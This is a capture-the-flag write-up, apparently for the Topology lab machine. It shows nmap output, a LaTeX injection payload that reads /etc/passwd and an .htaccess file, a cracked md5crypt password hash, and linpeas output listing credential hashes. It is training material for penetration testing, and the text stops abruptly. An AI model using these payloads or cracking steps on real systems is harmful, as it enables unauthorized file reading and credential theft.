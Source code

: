 ## Enumeration
```
└─# nmap -sV -Pn -p- --min-rate 3000 $ip                
Starting Nmap 7.93 ( https://nmap.org ) at 2023-10-27 19:45 GMT
Stats: 0:01:25 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 97.67% done; ETC: 19:46 (0:00:01 remaining)
Stats: 0:01:42 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 98.84% done; ETC: 19:46 (0:00:00 remaining)
Nmap scan report for 10.10.11.217
Host is up (7.0s latency).
Not shown: 65011 filtered tcp ports (no-response), 522 closed tcp ports (reset)
PORT   STATE SERVICE    VERSION
22/tcp open  tcpwrapped
80/tcp open  tcpwrapped
```
I will visit the web on port 80,
i found : `• LaTeX Equation Generator - create .PNGs of LaTeX equations in your browser
• PHPMyRefDB - web application to manage journal citations, with BibTeX support! (currenty in development)`
when i click on latex equation i found : `http://latex.topology.htb/equation.php`, i will add it on my hosts
I reload the website and found : LaTeX Equation Generator
I googled it and found some CVE, then i searched for Latex Injection.
Ressources : `https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LaTeX%20Injection`
I bypassed the illegal commands by this : `$\lstinputlisting{/etc/passwd}$`
### Methods for User
Here in the passwd we have seen a user `vdaisley`,  we can use hydra to crack his password using rockyou or also use this methods.
### Second Methods
sudomain bruteforce i found `dev` and `stats`
accessed on this : `$\lstinputlisting{/var/www/dev/.htaccess}$`
I found a user and passwd.
`vdaisley : $apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0`
Cracking the password
```
└─# john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 128/128 AVX 4x3])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:03 1.27% (ETA: 20:17:19) 0g/s 69206p/s 69206c/s 69206C/s nissan2..negra14
0g 0:00:00:05 2.17% (ETA: 20:17:14) 0g/s 70863p/s 70863c/s 70863C/s buwisit..bulang
calculus20       (?)     
1g 0:00:00:15 DONE (2023-10-27 20:13) 0.06501g/s 64740p/s 64740c/s 64740C/s calebd1..caitlyn09
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
`user: c3f75926c6e4829022bfc2e5ad3fd325`
## Privilege Escalation
I run Linpeash and found Pwnkit
```
╔══════════╣ Analyzing Htpasswd Files (limit 70)
-rw-r--r-- 1 root root 47 Jan 11  2020 /usr/lib/python3/dist-packages/fail2ban/tests/files/config/apache-auth/basic/authz_owner/.htpasswd
username:$apr1$1f5oQUl4$21lLXSN7xQOPtNsj5s4Nk/
-rw-r--r-- 1 root root 47 Jan 11  2020 /usr/lib/python3/dist-packages/fail2ban/tests/files/config/apache-auth/basic/file/.htpasswd
username:$apr1$uUMsOjCQ$.BzXClI/B/vZKddgIAJCR.
-rw-r--r-- 1 root root 117 Jan 11  2020 /usr/lib/python3/dist-packages/fail2ban/tests/files/config/apache-auth/digest_anon/.htpasswd
username:digest anon:25e4077a9344ceb1a88f2a62c9fb60d8
05bbb04
anonymous:digest anon:faa4e5870970cf935bb9674776e6b26a
-rw-r--r-- 1 root root 62 Jan 11  2020 /usr/lib/python3/dist-packages/fail2ban/tests/files/config/apache-auth/digest/.htpasswd
username:digest private area:fad48d3a7c63f61b5b3567a4105bbb04
-rw-r--r-- 1 root root 62 Jan 11  2020 /usr/lib/python3/dist-packages/fail2ban/tests/files/config/apache-auth/digest_time/.htpasswd
username:digest private area:fad48d3a7c63f61b5b3567a4105bbb04
-rw-r--r-- 1 root root 62 Jan 11  2020 /usr/lib/python3/dist-packages/fail2ban/tests/files/config/apache-auth/digest_wrongrelm/.htpasswd
username:wrongrelm:99cd340e1283c6d0ab34734bd47bdc30
4105bbb04
-rw-r--r-- 1 www-data www-data 47 Jan 17  2023 /var/www/dev/.htpasswd
vdaisley:$apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0
```
also found these hashes